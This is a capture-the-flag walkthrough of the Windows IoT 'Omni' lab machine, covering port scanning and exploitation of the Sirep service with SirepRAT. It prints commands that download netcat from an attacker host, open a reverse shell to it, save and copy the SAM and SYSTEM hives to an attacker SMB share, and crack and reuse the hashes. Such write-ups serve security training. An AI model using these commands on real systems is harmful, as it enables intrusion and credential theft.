

# Omni 

## Enumeration

### Port enumeration initial

`sudo nmap --min-rate=3000 -sS -v -p- -n -oN nmap.init $target`

```bash
# Nmap 7.94 scan initiated Wed Sep  6 09:16:12 2023 as: nmap --min-rate=3000 -sS -v -p- -n -oN nmap.init $target
Nmap scan report for $target
Host is up (6.8s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
5985/tcp  open  wsman
8080/tcp  open  http-proxy
29817/tcp open  unknown
29819/tcp open  unknown
29820/tcp open  unknown
```

### Enumeration port versions

```bash
# Nmap 7.94 scan initiated Wed Sep  6 09:21:31 2023 as: nmap --min-rate=3000 -sVC -v -p135,5985,8080,29817,29819,29820 -n -oN nmap.version $target
Nmap scan report for $target
Host is up (0.17s latency).

PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
|_http-title: Site doesn't have a title.
|_http-server-header: Microsoft-HTTPAPI/2.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.94%I=7%D=9/6%Time=64F87CE2%P=x86_64-pc-linux-gnu%r(NU
SF:LL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,"\
SF:*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x04
SF:G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc
SF:9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  6 09:22:51 2023 -- 1 IP address (1 host up) scanned in 80.57 seconds
```

## Enumeration of http service

Visit the site http://$target:8080 and open the next window:

  

This is a basic authentication, and it will become important later.


## Enumeration of rpc

I tried to enumerate rpcclient with a null session, but i didn't find any.

`rpcclient -U "" ip -N`


## Enumeration port 29819

Investigating this protocol is related to **Windows Device Portal** and the protocol's name is **sirep**. 


# Explotation

Download the next tool:

```bash
git clone https://github.com/SafeBreach-Labs/SirepRAT.git
cd SirepRAT
```

I did a proof of concept to see if i have reading or writing capability.


  


## Privilege escalation 

I trying to upload netcat to the server using this command.

```bash
python SirepRAT.py $target LaunchCommandWithOutput --return_output --cmd "powershell" --args "-c iwr -uri http://$atack_machine:8000/nc.exe -OutFile C:\Windows\System32\spool\drivers\color\nc.exe"

```

  


While I opened a port to receive the shell, in the server i invoked netcat.


```bash
python SirepRAT.py $target LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\Windows\System32\spool\drivers\color\nc.exe -e cmd $atack_machine 1234"
```
  


Save the registry keys SAM and SYSTEM

`
reg save HKLM\SAM sam1
`
`
reg save HKLM\SYSTEM system1
`


Send the files through SMB

```bash
copy sam1 \\$atack_machine\smbFolder\sam1
copy system1 \\$atack_machine\smbFolder\system1
```

  


And I get the SAM hashes with the tool *scretsdump.py* 

`python3 /usr/share/doc/python3-impacket/examples/secretsdump.py  -system system1 -sam sam1 LOCAL`


I filter the hash file and get the nt hash.



Then use crackstation


And reutilize credentials in the web portal.


### Privilege escalation 

I explored the portal, and the portal has the capability to execute commands.


Execute a new revshell.


  


# User flag

Search the flag

  

Show the flag.

It seems a credential store in a file.


The open with the powershell's tools Import-cliXml:

`(Import-cliXml -Path user.txt).GetNetworkCredential().password`

  


# Root


And there are another strange file in the same path it is *iot-admin.xml*.

I use the same tool.

`(Import-cliXml -Path iot-admin.xml).GetNetworkCredential().password`


And reutilize credentials in the web portal.


And show the flag.


Using the same technique previously employed.

`(Import-cliXml -Path root.txt).GetNetworkCredential().password`


